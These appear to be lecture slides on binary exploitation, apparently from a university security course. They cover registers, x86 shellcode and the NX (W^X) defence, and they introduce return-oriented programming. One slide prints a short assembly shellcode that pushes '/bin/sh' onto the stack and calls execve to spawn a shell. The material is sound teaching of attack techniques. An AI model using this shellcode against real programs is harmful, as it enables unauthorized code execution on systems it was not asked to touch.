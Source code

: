* RAM is the memory for the current processes

* registers is the memory for the current instruction

* what if we manipulated the registers to invoke our own instruction?

---

### how do we do that?
> [linux syscall references](https://cgi.cse.unsw.edu.au/~z5164500/syscall/)

---

```
// argv = envp = NULL
xor edx, edx
xor ecx, ecx

// push '/bin/sh' onto stack
push 0x68           
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp

// call execve()
mov eax, 0xb    // Syscall Number 11
int 0x80        // Trigger syscall
```

---

## Demo

{{% /section %}}

---

### problem!
`NX` (`W^X`)

> regions of memory that are writable, cannot be executable (and vice-versa) 

---

{{% section %}}

## Return Oriented Programming

---

### ROP
* Instead of writing our own assembly instruction, we re-use existing instructions from the program.
